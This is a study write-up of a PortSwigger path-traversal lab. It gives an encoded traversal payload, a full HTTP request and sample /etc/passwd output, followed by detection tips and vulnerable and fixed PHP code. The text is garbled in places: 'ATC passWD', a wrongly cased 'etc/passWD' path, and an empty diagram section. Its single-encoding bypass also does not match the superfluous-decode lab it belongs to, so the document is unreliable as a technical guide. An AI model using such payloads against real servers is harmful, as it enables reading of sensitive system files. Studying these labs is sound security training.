

## Understanding the Lab

In this lab, we are tasked with retrieving the contents of the `ATC passWD` file. The application contains a file path traversal vulnerability in the display of product images. However, the application has implemented some defensive mechanisms:

1. **Blocking Input Containing Path Traversal Sequences**: The application blocks any input that contains path traversal sequences like `../`.
2. **URL Decode of Input**: The application performs a URL decode of the input before using it.

These mechanisms make the exploitation more challenging but not impossible.

### Analyzing the Vulnerability

Let's break down the vulnerability and the defensive mechanisms:

#### Blocking Path Traversal Sequences

The application blocks any input that contains path traversal sequences like `../`. This means that simply injecting `../` will not work. We need to find a way to bypass this restriction.

#### URL Decode of Input

The application performs a URL decode of the input before using it. This means that if we encode certain characters, they will be decoded before being used in the file path. This can be exploited to bypass the blocking mechanism.

### Exploiting the Vulnerability

To exploit this vulnerability, we need to find a way to bypass the blocking mechanism and leverage the URL decode functionality. Here’s a step-by-step approach:

1. **Identify the Encoding Scheme**: Since the application performs a URL decode, we can use URL encoding to bypass the blocking mechanism. For example, instead of using `../`, we can use `%2E%2E%2F`, which is the URL-encoded form of `../`.

2. **Craft the Payload**: We need to craft a payload that will bypass the blocking mechanism and still allow us to traverse the directory structure. Let’s assume the original URL is:

    ```plaintext
    http://example.com/images/<filename>
    ```

    We want to access the `ATC passWD` file, which might be located in a different directory. Using the URL-encoded form, we can construct the payload as follows:

    ```plaintext
    http://example.com/images/%2E%2E%2F%2E%2E%2Fetc%2FpassWD
    ```

    This payload will be URL-decoded to:

    ```plaintext
    http://example.com/images/../../etc/passWD
    ```

    Which should allow us to access the `ATC passWD` file.

### Full HTTP Request and Response

Here is a complete example of the HTTP request and response:

```http
GET /images/%2E%2E%2F%2E%2E%2Fetc%2FpassWD HTTP/1.1
Host: example.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36
Accept: */*
Accept-Encoding: gzip, deflate
Connection: close
```

Response:

```http
HTTP/1.1 200 OK
Date: Mon, 12 Jul 2021 12:00:00 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Type: text/plain
Content-Length: 1024
Connection: close

# Example of /etc/passwd file content
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
...
```

### Mermaid Diagram of the Attack Chain

A mermaid diagram can help visualize the attack chain:



### Common Pitfalls and Detection

#### Common Pitfalls

1. **Incorrect Encoding**: Ensure that the encoding is correct and consistent. Incorrect encoding can lead to unexpected results.
2. **Application-Specific Defenses**: Some applications may implement additional defenses, such as limiting the depth of directory traversal or validating the file extension.

#### Detection

Detection of directory traversal vulnerabilities can be done through automated tools and manual testing:

1. **Automated Tools**: Tools like Burp Suite, OWASP ZAP, and DirBuster can be used to scan for directory traversal vulnerabilities.
2. **Manual Testing**: Manually test the application by injecting various payloads and observing the responses.

### How to Prevent / Defend

#### Secure Coding Practices

1. **Input Validation**: Validate all user-supplied input to ensure it does not contain path traversal sequences.
2. **Whitelist Filenames**: Use a whitelist of allowed filenames and directories to prevent unauthorized access.
3. **Use Safe Functions**: Use safe functions that do not allow directory traversal, such as `basename()` in PHP.

#### Configuration Hardening

1. **Disable Directory Listing**: Disable directory listing in web servers to prevent enumeration of files and directories.
2. **Limit File Access**: Limit file access permissions to the minimum required for the application to function.

#### Secure Code Example

Here is an example of insecure and secure code:

**Insecure Code**

```php
<?php
$filename = $_GET['file'];
echo file_get_contents("/var/www/html/images/{$filename}");
?>
```

**Secure Code**

```php
<?php
$filename = basename($_GET['file']);
if (preg_match('/^[a-zA-Z0-9._-]+$/', $filename)) {
    echo file_get_contents("/var/www/html/images/{$filename}");
} else {
    echo "Invalid filename";
}
?>
```

### Practice Labs

For hands-on practice, you can use the following labs:

- **PortSwigger Web Security Academy**: Offers a variety of labs to practice directory traversal and other web security vulnerabilities.
- **OWASP Juice Shop**: A deliberately insecure web application for practicing web security skills.
- **DVWA (Damn Vulnerable Web Application)**: A PHP/MySQL web application that is riddled with vulnerabilities for educational purposes.

By thoroughly understanding and practicing directory traversal, you can better protect your applications from this type of vulnerability.

---
<!-- nav -->
[[04-Directory Traversal Vulnerability|Directory Traversal Vulnerability]] | [[Web Security (PortSwigger)/11-Directory Traversal/05-Lab 4 File path traversal traversal sequences stripped with superfluous URL decode/00-Overview|Overview]] | [[Web Security (PortSwigger)/11-Directory Traversal/05-Lab 4 File path traversal traversal sequences stripped with superfluous URL decode/06-Practice Questions & Answers|Practice Questions & Answers]]
